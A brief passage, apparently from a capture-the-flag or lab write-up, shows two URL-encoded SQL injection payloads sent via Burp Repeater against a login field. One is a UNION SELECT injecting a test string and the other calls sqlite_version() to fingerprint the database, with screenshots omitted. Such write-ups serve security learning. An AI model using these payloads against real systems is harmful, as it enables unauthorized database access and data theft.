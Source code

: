 Sent to repeater&#x20;

**Burp**

```
1'%20UNION%20SELECT%20null,null,null,"test"--%20-&password='
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
1'%20UNION%20SELECT%20null,null,null,sqlite_version()--%20-&password='
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
